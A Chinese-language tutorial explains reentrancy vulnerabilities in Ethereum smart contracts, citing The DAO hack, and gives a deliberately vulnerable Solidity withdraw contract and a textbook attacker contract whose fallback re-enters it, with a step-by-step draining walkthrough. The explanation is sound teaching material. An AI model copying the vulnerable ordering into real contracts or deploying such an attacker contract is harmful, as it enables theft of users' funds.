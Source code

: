 ### 说说重入漏洞

**什么是重入漏洞？**

简单来说，重入漏洞发生在以下情况： 一个智能合约在**调用外部合约或地址**（如通过`call`、`send`或`transfer`发送以太币）之后，**未及时更新内部状态**

当外部合约或地址接收到以太币时，它可以执行一个**回退函数**（Fallback Function）。如果这个回退函数中又包含一个对原始合约的调用，那么它就可以在原始合约的状态（比如余额记录）更新之前，再次执行之前的函数，形成一个无限循环，直到合约中的以太币被取光

**重入漏洞的经典案例：The DAO**

最具代表性的重入漏洞攻击是发生在 2016 年的 **The DAO** 事件。当时，黑客利用这个漏洞从 The DAO 智能合约中盗取了价值超过 6000 万美元的以太币。这次攻击导致了以太坊社区的巨大分歧，最终促成了以太坊（ETH）和以太坊经典（ETC）的分叉

**重入漏洞的工作原理**

我们以一个简单的取款合约为例来详细解释这个过程：

**存在漏洞的合约代码**

```solidity
contract VulnerableContract {
    mapping(address => uint256) public balances;

    function withdraw() public {
        // 步骤 1: 检查用户余额
        uint256 amount = balances[msg.sender];

        // 步骤 2: 将以太币发送给用户
        // 这是一个危险的操作，因为`call`会触发接收方的回退函数
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");

        // 步骤 3: 更新用户余额
        // 这步在外部调用之后，是漏洞的关键
        balances[msg.sender] = 0;
    }

    // 其他函数...
}
```

**黑客合约代码**

```solidity
contract Attacker {
    VulnerableContract vulnerableContract;

    constructor(address _vulnerableContract) {
        vulnerableContract = VulnerableContract(_vulnerableContract);
    }

    // 步骤 1: 首次调用受害合约的提款函数
    function attack() public payable {
        vulnerableContract.withdraw();
    }

    // 步骤 2: 回退函数，当接收到以太币时被触发
    fallback() external payable {
        // 如果受害合约的余额大于 0，再次调用它的提款函数
        if (address(vulnerableContract).balance > 0) {
            vulnerableContract.withdraw();
        }
    }
}
```

**攻击流程解析：**

1. **准备**：黑客向 `VulnerableContract` 存入少量以太币，以获得一个非零的余额
2. **首次调用**：黑客通过 `Attacker` 合约调用 `VulnerableContract` 的 `withdraw()` 函数
3. **漏洞触发**：
   - `VulnerableContract` 检查黑客余额，然后向 `Attacker` 合约发送以太币
   - `Attacker` 合约接收到以太币后，其 `fallback` 函数被立即触发
   - 在 `fallback` 函数中，黑客再次调用 `VulnerableContract` 的 `withdraw()` 函数
4. **递归循环**：
   - 由于 `VulnerableContract` 的 `balances[msg.sender] = 0` 这一行代码**尚未执行**，`VulnerableContract` 以为黑客的余额仍然存在
   - `withdraw()` 函数再次执行，又一次向 `Attacker` 合约发送以太币，再次触发 `fallback` 函数
5. **耗尽资金**：这个过程会反复进行，直到 `VulnerableContract` 中的所有以太币被耗尽